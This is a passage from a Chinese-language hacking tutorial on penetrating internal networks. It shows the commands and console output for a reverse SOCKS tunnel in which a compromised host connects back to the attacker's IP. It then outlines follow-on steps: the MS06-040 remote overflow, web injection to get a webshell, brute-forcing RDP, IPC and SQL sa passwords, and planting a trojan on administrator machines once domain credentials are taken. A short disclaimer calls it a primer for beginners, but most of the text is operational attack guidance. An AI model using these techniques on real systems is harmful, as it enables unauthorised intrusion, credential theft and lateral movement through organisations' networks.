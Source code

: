 首先在本机监听：
 c:\>hd -s -listen 53 1180
 [+] Listening ConnectBack Port 53 ......
 [+] Listen OK!
 [+] Listening Socks5 Agent Port 1180 ......
 [+] Listen2 OK!
 [+] Waiting for MainSocket on port:53 ......
 此命令是将连接进来的53端口的数据包连接到1180端口。

在对方机器上运行:

C:\RECYCLER>hd -s -connect x.x.x.x 53
 [+] MainSocket Connect to x.x.x.x:53 Success!
 [+] Send Main Command ok!
 [+] Recv Main Command ok!
 [+] Send Main Command again ok!
 上面的x.x.x.x为你的外网ip，下面为你接收到反弹回来的代理显示的情况。
 c:\>hd -s -listen 53 1180
 [+] Listening ConnectBack Port 53 ......
 [+] Listen OK!
 [+] Listening Socks5 Agent Port 1180 ......
 [+] Listen2 OK!
 [+] Waiting for MainSocket on port:53 ......
 [+] Recv Main Command Echo ok!
 [+] Send Main Command Echo ok!
 [+] Recv Main Command Echo again ok!
 [+] Get a MainSocket on port 53 from x.x.x.x ......
 [+] Waiting Client on Socks5 Agent Port:1180....

上面ok了，接下来在你本机安装sockscap，照下图设置就ok了。



 Sockscap设置在控制台的”文件”-“设置”里，控制台可以将你需要代理的程序放在上面，直接拖进去即可，控制台机的程序就可以进接连接 内网的机器了。如直接用mstsc连接内网其它机器的3389,就可以上去试密码或是登录管理，也可以用mssql连接内网的1433，尝试sa弱口令 等。总之反弹socks是你利用已控制的内网机器通向内网其它机器的一道桥梁。

三．思考：
 信息有了，通道有了，接下来我们怎么做？
 1． 内网溢出,通过对内网的扫描情况，判断win2000的机器，利用ms06040进行运程溢出。
 2． 内网web，通过内网的扫描，用sockscap上的ie来打开内网开放的web，在内网采用web注入或上传的方式来获取webshell提权。
 3． 内网弱口令试探，利用ipc,或是3389，和已掌握的密码信息来尝试猜解内网nt的密码，当然这需要耐心，也是非常有用的。

4． 猜解sql弱口令，在sockscap控制台中用sql连接器连接内网开放1433或是3306的机器，猜解弱口令。
 5． 内网嗅探，不得已的办法，不推荐。
 6． 内网主动会话劫持，篇幅长，难度高，下次详写。
 四．突破：
 突破是考验经验和思维的时候，利用已掌握的信息去突破面临的困难。如，如何拿到第一台内网服务器站稳脚；如何拿到内网到外网授权的机器；如何拿到外网密码。
 在内网中站稳脚后，迅速判断管理员机器，控制管理员的机器极为重要。一般从机器名可以看出管理员机器，管理员的机器名常为：andy 、admin 、peter、 kater，在域控的环境中，我们只要得到域控密码就可以直接用ipc连接管理员机器种马。不是域控的环境中，我们也可以在内网测试服务器中跑出服务器的 密码进而拿去尝试管理员的密码。
 在突破过程中，内网的数据库和web的分析很重要，数据库里面有很多有用的信息，web的数据库连接及作用也有助于进一步的分析。总之在这一过程中只有灵活运用，发散思维才可以进一步的突破和控制。

黑客与安全是一个矛盾话题，只有知已知彼才能更好地维护内网安全。以上是黑客常用的内网渗透手法，知识有限，文笔粗拙，高手笑过，此文仅供新手科普。




